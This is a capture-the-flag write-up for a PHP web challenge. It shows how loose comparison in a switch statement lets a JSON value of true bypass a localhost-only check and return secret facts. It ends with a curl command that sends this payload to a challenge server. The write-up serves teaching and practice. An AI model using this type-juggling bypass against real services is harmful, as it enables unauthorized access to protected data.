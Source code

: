 # [Web] Juggling Facts

This web application is written in PHP, and serves facts from an API endpoint

```php
$router = new Router();
$router->new('GET', '/', 'IndexController@index');
$router->new('POST','/api/getfacts', 'IndexController@getfacts');
```

The function `getfacts` returns the flag only if the `type` is set to the string `secrets` (type validation with `===`) in the JSON payload, and has a limitation on the IP requesting it, which must be local

```php
    public function getfacts($router)
    {
        $jsondata = json_decode(file_get_contents('php://input'), true);

        if ( empty($jsondata) || !array_key_exists('type', $jsondata))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        if ($jsondata['type'] === 'secrets' && $_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
        {
            return $router->jsonify(['message' => 'Currently this type can be only accessed through localhost!']);
        }
```

Once this round of validation is done, the json is passed in a `switch`, for it to call the corresponding method

```php
        switch ($jsondata['type'])
        {
            case 'secrets':
                return $router->jsonify([
                    'facts' => $this->facts->get_facts('secrets')
                ]);
```

The problem is that `switch` is vulnerable to type juggling (hence the name of the challenge). Setting `type` to `true`, we can pass the validation, and still end up in the first branch of the `switch`

```bash
$ curl -vd '{"type":true}' 178.62.85.130:32116/api/getfacts
```
